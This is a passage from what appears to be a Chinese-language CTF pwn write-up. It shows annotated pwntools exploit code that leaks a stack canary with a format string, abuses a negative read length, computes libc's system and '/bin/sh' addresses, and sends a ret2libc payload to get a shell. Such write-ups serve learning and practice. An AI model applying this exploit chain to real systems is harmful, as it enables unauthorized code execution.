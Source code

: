 ```python
libc_base = puts_addr - libc.sym['puts']  
  
# 计算system函数的地址和/bin/sh字符串的地址  
system_addr = libc_base + libc.sym["system"]  
str_bin_sh = libc_base + next(libc.search("/bin/sh\x00"))  
  
# 重复前面的步骤，准备发送第二个攻击载荷  
target.ru("How many bytes do you want me to read? ")  
target.sl(b'-1')  
target.sla("Ok, sounds good. What's your name?\n", b'%7$p')  
  
# 构造第二个攻击载荷  
# 这个载荷包括填充、栈地址、三个1、system函数的地址、1（可能是作为system函数的参数count），以及/bin/sh字符串的地址  
payload_2 = b'a'*0x20 + p32(cannary) + p32(1)*3 + p32(system_addr) + p32(1) + p32(str_bin_sh)  
  
# 发送第二个攻击载荷  
target.sla("me what you got!\n", payload_2)  
  
# 尝试获取远程目标的交互式shell  
target.inter()  

```

注释拿ai写的(个人懒得写bushi)

![1730032758607](/images/2024/2024-10-27-pwn-wp/1730032758607.png)

## retret
